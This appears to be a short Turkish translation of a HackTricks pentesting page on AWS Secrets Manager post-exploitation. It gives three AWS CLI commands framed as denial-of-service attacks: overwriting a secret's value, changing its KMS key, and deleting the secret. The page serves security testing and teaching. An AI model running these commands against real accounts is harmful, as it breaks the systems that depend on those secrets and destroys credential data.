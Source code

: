 # AWS - Secrets Manager Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Secrets Manager

Daha fazla bilgi için kontrol edin:

{{#ref}}
../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### Gizli Bilgileri Okuma

**gizli bilgiler kendileri hassas bilgilerdir**, [privesc sayfasını kontrol edin](../aws-privilege-escalation/aws-secrets-manager-privesc.md) nasıl okunacağını öğrenmek için.

### DoS Gizli Değerini Değiştirme

Gizli değeri değiştirerek **o değere bağlı tüm sistemleri DoS yapabilirsiniz.**

> [!WARNING]
> Önceki değerlerin de saklandığını unutmayın, bu nedenle önceki değere geri dönmek kolaydır.
```bash
# Requires permission secretsmanager:PutSecretValue
aws secretsmanager put-secret-value \
--secret-id MyTestSecret \
--secret-string "{\"user\":\"diegor\",\"password\":\"EXAMPLE-PASSWORD\"}"
```
### DoS KMS anahtarını değiştir
```bash
aws secretsmanager update-secret \
--secret-id MyTestSecret \
--kms-key-id arn:aws:kms:us-west-2:123456789012:key/EXAMPLE1-90ab-cdef-fedc-ba987EXAMPLE
```
### DoS Gizli Silme

Bir sırrı silmek için gereken minimum gün sayısı 7'dir.
```bash
aws secretsmanager delete-secret \
--secret-id MyTestSecret \
--recovery-window-in-days 7
```
{{#include ../../../banners/hacktricks-training.md}}
